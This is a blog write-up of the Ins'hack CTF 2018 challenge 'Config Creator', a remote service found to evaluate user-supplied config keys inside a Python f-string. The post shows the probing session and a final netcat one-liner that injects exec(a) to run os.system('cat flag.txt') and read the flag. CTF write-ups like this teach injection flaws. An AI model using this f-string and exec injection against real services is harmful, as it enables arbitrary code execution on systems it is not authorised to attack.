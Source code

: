```yaml
---
layout: post
title:  "[Ins'hack CTF 2018] Config Creator"
date:   2018-04-08 17:00:00 +0000
categories: "CTF"
comments: true
---
```


As I'm currently into pwning things, I tried the pwn category at the Ins'hack CTF. And frankly, I really enjoyed spend time on their challenges. The first one was Config Creator. It was supposed to be hard, but had most validations than the other.
> I've just written a small utility to create a config file (which are sooo painful to write by han, right?).

> Care to have a look?

> nc config-creator.ctf.insecurity-insa.fr 10000  

No binary to reverse so let's give it a first shot:
```
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 1
Config key? A
Config value? B
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 3
template:
f"""
configuration [
    A = {A};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 4
config:

configuration [
    A = B;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice? 6
Bye
```
Plenty of options... After playing with these, I tried several things but didn't get something until I sent some random hex values:
```
└───▶python -c "print('1\n\xff\n\xff\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
     = {};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
f-string: empty expression not allowed (<string>, line 5)
An error occurred, sorry

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
See this line ?
> f-string: empty expression not allowed (<string>, line 5)

I didn't know what was that, **f-string**. A quick look at google and I landed on [this article](https://hackernoon.com/a-closer-look-at-how-python-f-strings-work-f197736b3bdb). Apparently this is a new way to format strings. A quick example of this fearture would be:
```python
>>> a=1337
>>> f'Hello {a} ABCD'
'Hello 1337 ABCD'
```
At this point it's almost sure that we'll have to exploit it. Let's try to:
```
└───▶ python -c "print('1\na\nabc\n1\nprint(a)\nprint(a)\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
Welcome to the config creator!

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Config key? Config value?
Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
template:
f"""
configuration [
    a = {a};
    print(a) = {print(a)};
]
"""

Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
config:
abc

configuration [
    a = abc;
    print(a) = None;
]


Please choose your action:
  1. Register a new config entry
  2. Change value of an existing config entry
  3. Show my template
  4. Show my config
  5. Reset current config
  6. exit

Choice?
Bye
```
We managed to print the variable a (the 'abc'). It would be great if we could put "import os; os.system(\'cat flag.txt\')" in a variable and execute it. If we look at the python [built-in functions](https://docs.python.org/3/library/functions.html), we find a interesting function **exec**.
> exec(object[, globals[, locals]]) <br/>
> This function supports dynamic execution of Python code. object must be either a string or a code object. If it is a string, the string is parsed as a suite of Python statements which is then executed (unless a syntax error occurs).

Seems perfectly suitable. And yep, we can retrieve the flag with:
```shell
python -c "print('1\na\nimport os; os.system(\'cat flag.txt\')\n1\n' + 'exec(a)\n' + '1\n3\n4\n6\n')" | nc config-creator.ctf.insecurity-insa.fr 10000
```
